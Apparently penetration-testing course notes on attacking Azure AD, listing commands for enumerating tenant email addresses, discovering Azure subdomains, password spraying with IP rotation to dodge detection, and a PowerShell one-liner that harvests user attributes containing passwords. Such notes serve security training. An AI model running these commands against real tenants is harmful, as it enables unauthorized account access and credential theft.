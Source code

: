 ### Email IDs

* We can use o365creeper (https://github.com/LMGsec/o365creeper) to check if an email ID belongs to a tenant
* It makes requests to the GetCredentialType API that we saw earlier
	* `C:\Python27\python.exe`
	* `C:\AzAD\Tools\o365creeper\o365creeper.py -f`
	* `C:\AzAD\Tools\emails.txt -o`
	* `C:\AzAD\Tools\validemails.txt`

### Azure Services

* Azure services are available at specific domains and subdomains
* We can enumerate if the target organization is using any of the services by looking for such subdomains
* The tool that we will use for this is MicroBurst
	* https://github.com/NetSPI/MicroBurst
* MicroBurst is a useful tool for security assessment of Azure
	* Uses Az, AzureAD, AzurRM and MSOL tools and additional REST API calls
	* `Import-Module C:\AzAD\Tools\MicroBurst\MicroBurst.psm1 -Verbose`
* Enumerate all subdomains for an organization specified using the `-Base` parameter:
	* `Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose`


PASSWORD SPRAY
* We can use MSOLSpray (https://github.com/dafthack/MSOLSpray) for password spray against the accounts that we discovered
* The tool supports fireprox (https://github.com/ustayready/fireprox) to rotate source IP address on auth request
	* `C:\AzAD\Tools\MSOLSpray\MSOLSpray.ps1`
	* `Invoke-MSOLSpray -UserList C:\AzAD\Tools\validemails.txt -Password SuperVeryEasytoGuessPassword@1234 -Verbose`
* Overview
	* We will use a single password against multiple users that we have enumerated
	* This is definitely noisy and may lead to detection
	* For Azure, password spray attack can be done against different API endpoints like Azure AD Graph, Microsoft Graph, Office 365 Reporting webservice etc

* (Potentially) No Credentials Required
	* Azure - IP Ranges
		* Bash one liner to grab current Azure IP ranges

				download=$(curl -s https://www.microsoft.com/en-us/download/confirmation.aspx?id=41653 | grep '{base_0:{url:"' | cut -d ':' -f3,4 | cut -d '"' -f2) && curl -s $download | cut -d '"' -f2 | grep [0-9] | grep -v [a-zA-Z]
	* Search Microsoft Azure Active Directory for Vulnerable User Attributes (Powershell MSoL)
		* References
			* [https://twitter.com/dafthack/status/1248688920315002887](https://twitter.com/dafthack/status/1248688920315002887)
		* Comand

				import-module MSOnline
				Connect-MsolService
				$x=Get-MsolUser;foreach($u in $x){$p = @();$u|gm|%{$p+=$_.Name};ForEach($s in $p){if($u.$s -like "*passw*"){Write("[*]"+$u.UserPrincipalName+"["+$s+"]"+" : "+$u.$s)}}}
	* References
		* @dafthack, @ustayready -<br />[https://sans.org/cyber-security-summit/archives/file/summit-archive-1542324182.pdf](https://sans.org/cyber-security-summit/archives/file/summit-archive-1542324182.pdf)
